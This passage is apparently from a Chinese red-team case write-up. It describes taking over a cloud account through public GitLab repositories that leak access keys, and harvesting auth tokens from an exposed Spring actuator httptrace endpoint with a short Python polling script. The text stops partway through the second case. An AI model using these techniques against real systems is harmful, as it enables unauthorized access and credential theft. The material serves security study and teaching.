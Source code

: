 ![img](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-3d0cc28201696374a1224da36a41211cc0ffbab1.png)

案例6、某单位Gitlab项目权限误配导致公有云接管
--------------------------

防守单位中某单位的Gitlab开放到了公网，但是爆破了一顿，并不存在弱口令和其他Nday漏洞

但是经过对Gitlab的测试，找到了Gitlab中仓库权限的配置问题

```php
/api/v4/projects
```

获取到gitlab中部分仓库为public状态，非登录态可直接访问

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-78ca14e2067ab3527918797561b63625055c9c59.png)  
如图，成功访问到某内部项目

![image-20231120161131396](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-81ec1dc06a3ec52bd03f741b11af2779132d6b63.png)

最终在某项目中成功找到了可用的ak,sk，完成公有云接管

![img](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-8d664a3873e91badbfe489aa8bc08ca4fb9e5e1c.png)

案例七、某单位系统从一个actuator httptrace端点到千万量级敏感信息
-----------------------------------------

挂着Burp代理，被动扫描到了一个actuator接口，很幸运，开放了httptrace endpoint，借此我们可以获取到系统中的http请求日志

![image-20231122111607300](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-fe16977041ca448d1177200318af109c04eaf33d.png)

但是发现如图上方使用的鉴权header并不能直接进入到系统中

刚开始怀疑是鉴权信息的过期时间设置的比较短，写了个脚本监控带有x-access-token的新增请求

```python
import requests
import time

monitored_text = ""

# URL
url = "http://xxxxx.xxxxx.com/xxxxxx/actuator/httptrace/"

while True:
    try:
        response = requests.get(url)
        page_text = response.text
        new_content = page_text[len(monitored_text):]

        # 检查新增的内容是否包含 "x-access-token" 字符串
        if "x-access-token" in new_content:
            current_time = time.strftime("%Y-%m-%d %H:%M:%S", time.localtime())
            print(f"新增的内容包含 'x-access-token' 于 {current_time}")
        monitored_text = page_text
        time.sleep(1)

    except Exception as e:
        print(f"error Info: {e}")
```
